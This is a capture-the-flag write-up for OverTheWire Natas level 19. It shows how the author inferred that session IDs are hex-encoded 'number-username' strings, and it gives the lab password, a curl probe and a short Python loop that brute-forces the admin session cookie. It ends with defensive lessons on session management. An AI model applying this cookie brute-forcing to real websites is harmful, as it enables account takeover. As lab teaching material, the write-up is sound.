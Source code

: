 ```yaml
---
category: natas
title: Natas19 - Improper Session Management Part 2
---
```


website: http://natas19.natas.labs.overthewire.org/ (password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs)

Unlike previous challenges, you won't be able to view its source code. However, there is one more line added compared to Natas18:
"This page uses mostly the same code as the previous level, but session IDs are no longer sequential...".
According to the hint, we can guess the implementation in this level would not have many changes except the way how a session ID is generated.

To figure out how a session ID is generated, I double checked the returned PHPSESSID in the cookie by running following curl commands multiple times:

```shell
$ curl -I  -u natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs "http://natas19.natas.labs.overthewire.org/?username=admin&password=1234"

HTTP/1.1 200 OK
Date: Fri, 23 Apr 2021 17:40:55 GMT
Server: Apache/2.4.10 (Debian)
Set-Cookie: PHPSESSID=3336332d61646d696e; path=/; HttpOnly
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Keep-Alive: timeout=5, max=100
Content-Type: text/html; charset=UTF-8
Via: 1.1 rtp1-dmz-wsa-1.cisco.com:80 (Cisco-WSA/X)
Connection: keep-alive
```

Each time the web application returned a different session ID. However, from what I can tell, the last part is always the same, i.e., "61646d696e", which is the hex ASCII of the username "admin". To validate my guess, I also tried "admin1" as the username. This time the returned PHPSESSID contained "61646d696e31", where it had the hex ASCII of character '1'.

Based on the observation, also taking the hint into consideration, I guess Natas19 generated the session ID in this way:

1. Like what Natas18 did, it first generates a random number between 0 and 640.
2. It then concatenates the random number and the username.
3. Finally it returns the hex ASCII of the concatenated string as the session ID.

To break the password, I came up with the following python script:

```python
for i in range(1, 641):
    sid = f'{i}-admin'
    print(f'Trying PHPSESSID...{sid}', end="\r", flush=True)
    # print(binascii.hexlify(sid.encode()).decode())
    resp = s.post(url, data={"username":'admin', "password":'xxx'}, cookies={'PHPSESSID': binascii.hexlify(sid.encode()).decode()})
    if resp and "Password: " in resp.text:
        print(f'\nPHPSESSID found: {i}')
        print(resp.text)
        break
```

What this script does is to combine a number and the username "admin", then translate the combination into a hex.
Running the script I was able to find the correct session ID and the password for natas20.

<strong>LESSONS LEARNED</strong>

1. One should NOT rely on a cookie to do an authentication work, because cookies can be manipulated.
2. The range for a session ID <em>must</em> be large enough. Otherwise it can be easily brute forced.
3. A session ID <em>must</em> be randomly generated, and <em>should not</em> follow obvious patterns.

In <a href="https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html">this article</a>,
it gives more details and suggestions about what properties a good session ID must have.

